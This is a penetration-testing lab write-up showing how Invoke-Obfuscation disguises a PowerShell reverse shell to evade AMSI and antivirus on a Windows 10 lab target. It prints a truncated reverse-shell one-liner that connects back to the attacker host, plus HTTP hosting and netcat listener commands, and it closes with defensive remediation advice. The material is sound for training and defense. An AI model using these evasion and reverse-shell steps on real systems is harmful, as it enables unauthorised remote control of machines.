# Obfuscating PowerShell Code

**Classification:** Host & Network Penetration Testing / Exploitation<br>
**Target:** IEUser host (10.10.10.14) — Windows 10<br>
**Attacker:** 10.10.10.10 (Kali)

## 1. Executive Summary

**Invoke-Obfuscation** rewrites PowerShell scripts into functionally identical but
unrecognisable forms to defeat signature/AMSI detection. Here we take a PowerShell reverse
shell, obfuscate it (ASCII encoding, then AST-node obfuscation), host it over HTTP, and run
it on a Windows target to get a reverse shell back.

## 2. Setup

Installing Invoke-Obfuscation and PowerShell on Kali.



```bash
pwsh
```



```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```







## 3. The Reverse Shell Payload

Taking a PowerShell reverse shell from a cheatsheet (e.g. PayloadsAllTheThings).

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};..."
```

> Change the IP and port to the current attacker values (`10.10.10.10:1234`).





Pointing Invoke-Obfuscation at the script.

```
SET SCRIPTPATH /root/shell.ps1
```



## 4. Encoding Obfuscation

```
ENCODING
1        # Out-EncodedAsciiCommand
```



The result is a fully encoded, unreadable one-liner.



## 5. AST Obfuscation

Another layer — obfuscating AST nodes.



Applying all options produces further-mangled code.







## 6. Delivery & Handler

Hosting the obfuscated script and starting a listener.

```bash
python3 -m http.server 80
nc -nvlp 1234
```





## 7. Execution on the Target

On the target (with Cloud-Delivered Protection / Automatic Sample Submission disabled),
downloading and running the obfuscated script.





The listener receives a PowerShell reverse shell as `IEUser`.

```
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.14]
PS C:\Users\IEUser\Downloads>
```



## 8. Remediation Recommendations

1. **Enable AMSI + Script Block Logging and Constrained Language Mode** — these inspect
   PowerShell at runtime, after de-obfuscation.
2. **Keep cloud-delivered AV/EDR protections ON** (disabling them here is what let the payload
   through).
3. **Application allow-listing** (WDAC) and `powershell.exe` execution-policy/logging controls.
4. **Egress filtering** to block reverse-shell callbacks and untrusted downloads.
